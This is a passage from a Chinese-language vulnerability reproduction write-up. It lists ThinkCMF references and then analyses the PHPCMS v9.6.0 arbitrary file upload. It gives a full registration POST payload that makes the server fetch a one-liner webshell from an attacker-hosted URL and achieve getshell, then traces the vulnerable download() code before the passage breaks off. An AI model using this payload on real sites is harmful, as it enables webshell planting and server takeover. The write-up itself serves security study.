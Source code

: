 >由于其他的sql注入都是要登录后台的，就没有复现了

参考：
[Thinkcmf任意漏洞包含漏洞分析复现](https://www.cnblogs.com/0daybug/p/11790619.html)
[ThinkCMF 任意文件包含漏洞分析](https://cloud.tencent.com/developer/article/1532513)
[ThinkCMF X2.2.2多处SQL注入漏洞分析](https://anquan.baidu.com/article/490)
b站视频：[ThinkCMF框架漏洞复现](https://www.bilibili.com/video/av73476588)

## Phpcms

### phpcms_v9.6.0
#### 前台任意文件上传
首先开启web服务，这里是使用的python开启的，`python2 -m SimpleHTTPServer 8000`，然后将我们的一句话木马准备好
![](https://img-blog.csdnimg.cn/20210709224528123.png)
```
?m=member&c=index&a=register&siteid=

POST:
siteid=1&modelid=11&username=12345678&password=12345678&email=12345678@qq.com&info[content]=<img src=http://192.168.111.1:8000/bmth.php#.jpg>&dosubmit=1&protocol=
```



![](https://img-blog.csdnimg.cn/2021070922450333.png)
成功写入木马，访问即可getshell
![](https://img-blog.csdnimg.cn/20210709230006336.png)
poc是发起注册请求，对应的是`phpcms/modules/member/index.php`中的register函数
![](https://img-blog.csdnimg.cn/img_convert/a077a93621d76b43d59ddf187278bc40.png)
很容易发现我们的payload在`$_POST['info']`里，跟进发现将我们的`$_POST['info']`使用`new_html_special_chars`对<>转换为 HTML 实体，然后进入member_input中的get函数
![](https://img-blog.csdnimg.cn/img_convert/35be84fbcd98ee4553169318d03ffbcb.png)
在`caches/caches_model/caches_data/member_input.class.php`内，由于payload为`info[content]`，而v9_model_field表中content的列formtype为editor，所以调用了editor函数
![](https://img-blog.csdnimg.cn/img_convert/f86b074cc518012e32a34d8619afb694.png)
跟进发现执行`$this->attachment->download`函数进行下载
![](https://img-blog.csdnimg.cn/img_convert/e71e77ced767179ea7e46de0531e0ec9.png)
在`phpcms/libs/classes/attachment.class.php`中的download函数存在漏洞
```php
function download($field, $value,$watermark = '0',$ext = 'gif|jpg|jpeg|bmp|png', $absurl = '', $basehref = '')
{
    global $image_d;
    $this->att_db = pc_base::load_model('attachment_model');
    $upload_url = pc_base::load_config('system','upload_url');
    $this->field = $field;
    $dir = date('Y/md/');
    $uploadpath = $upload_url.$dir;
    $uploaddir = $this->upload_root.$dir;
    $string = new_stripslashes($value);
    if(!preg_match_all("/(href|src)=([\"|']?)([^ \"'>]+\.($ext))\\2/i", $string, $matches)) return $value;
    $remotefileurls = array();
    foreach($matches[3] as $matche)
    {
        if(strpos($matche, '://') === false) continue;
        dir_create($uploaddir);
        $remotefileurls[$matche] = $this->fillurl($matche, $absurl, $basehref);
    }
    unset($matches, $string);
```